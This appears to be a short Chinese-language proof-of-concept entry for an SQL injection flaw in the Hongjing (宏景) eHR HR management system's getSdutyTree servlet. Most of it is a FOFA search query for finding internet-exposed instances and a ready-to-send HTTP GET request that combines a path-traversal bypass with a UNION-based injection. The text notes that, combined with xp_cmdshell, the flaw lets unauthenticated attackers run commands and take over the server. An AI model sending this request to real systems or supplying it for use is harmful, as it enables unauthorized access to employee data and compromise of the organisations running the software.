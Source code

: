 # 宏景eHR人力资源管理系统接口getSdutyTree存在SQL注入漏洞

宏景eHR /servlet/sduty/getSdutyTree 接口处存在sql注入漏洞，未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```
app="HJSOFT-HCM"
```

## poc

```yaml
GET /w_selfservice/oauthservlet/%2e./.%2e/servlet/sduty/getSdutyTree?param=child&target=1&codesetid=1&codeitemid=1%27+UNION+ALL+SELECT+NULL%2CCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28106%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28119%29%2BCHAR%2885%29%2BCHAR%2873%29%2BCHAR%2887%29%2BCHAR%2899%29%2BCHAR%2875%29%2BCHAR%28116%29%2BCHAR%2872%29%2BCHAR%28113%29%2BCHAR%28104%29%2BCHAR%28107%29%2BCHAR%2889%29%2BCHAR%28115%29%2BCHAR%28108%29%2BCHAR%2873%29%2BCHAR%2884%29%2BCHAR%2869%29%2BCHAR%2873%29%2BCHAR%2875%29%2BCHAR%2883%29%2BCHAR%2898%29%2BCHAR%28116%29%2BCHAR%28120%29%2BCHAR%2889%29%2BCHAR%2884%29%2BCHAR%2882%29%2BCHAR%28120%29%2BCHAR%2884%29%2BCHAR%28116%29%2BCHAR%2888%29%2BCHAR%28112%29%2BCHAR%2887%29%2BCHAR%2873%29%2BCHAR%28109%29%2BCHAR%28104%29%2BCHAR%2887%29%2BCHAR%28102%29%2BCHAR%2897%29%2BCHAR%2877%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL%2CNULL--+Iprd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407041356777.png)